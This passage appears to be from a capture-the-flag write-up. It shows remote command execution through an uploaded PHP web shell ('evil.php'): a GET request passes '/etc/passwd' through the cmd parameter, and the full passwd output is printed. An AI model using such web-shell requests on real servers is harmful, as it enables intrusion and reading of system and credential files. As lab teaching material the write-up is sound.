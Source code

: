 There were some glitch on the code, but the upload was successful. I quickly checked the browser and I could see

<img id="image4" />

I proceeded to execute commands via **cmd** argument in order to retrieve the **/etc/passwd** content. 

!!! bug "RCE"
    ```http
    GET /management/uploads/1677425460_evil.php?cmd=/etc/passwd HTTP/1.1
    ```
```s linenums="1" hl_lines="33 36"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
plot_admin:x:1001:1001:,,,:/home/plot_admin:/bin/bash
```

The command revealed the names of the users **plot_admin** and **ubuntu**.
